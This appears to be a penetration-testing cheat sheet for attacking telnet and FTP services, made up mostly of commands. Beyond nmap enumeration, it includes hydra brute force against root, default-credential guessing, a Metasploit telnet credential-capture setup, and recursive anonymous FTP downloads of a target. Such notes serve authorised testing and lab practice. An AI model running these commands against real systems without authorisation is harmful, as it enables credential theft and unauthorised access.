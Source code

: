 # Discovers remote FQDN (hostname and domain) if port is open
nmap -p 23 --script=telnet-ntlm-info.nse <host>

# Testing anonymous login by connecting and, if presented with login prompt, try anonymous:anonymous. Also useful to grab the banner
telnet <host> 21

# Try other safe nmap scripts. SHould also give you service information, which may help with fingerprinting for exploitation
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 <host>

# If you positivel;y identify the remote service, you can try authenticating with default credentials. Similarly, if you have previously compromised credentials you can try them here.
# Try authenticating with credentials such as root:<empty> etc. admin:admin, admin:<blank.
# If you have positiely identified the remote aservice, use searchsploit to try for exploits.

# BruteForce Attack
hydra -l root -P /root/SecLists/Passwords/10_million_password_list_top_100.txt $ip telnet
hydra -l root -P /root/SecLists/Passwords/10_million_password_list_top_100.txt 192.168.1.101 telnet

# Telnet Spoofing
MITM: Telnet Spoofing
An attack may use telnet spoofing as a Man-in-the-middle attack in order to capture the telnet login credential.

use auxiliary/server/capture/telnet
set srvhost 192.168.0.102
set banner Welcome to Hacking Articles
exploit

# Telnet commands

dir
cd <folder>
strings backup.mdb > possiblepasswords.txt

# Run from your kali instance to download all contents to your machine for review
wget --recursive --ftp-user=anonymous --ftp-password=any --no-passive-ftp ftp://10.10.10.98
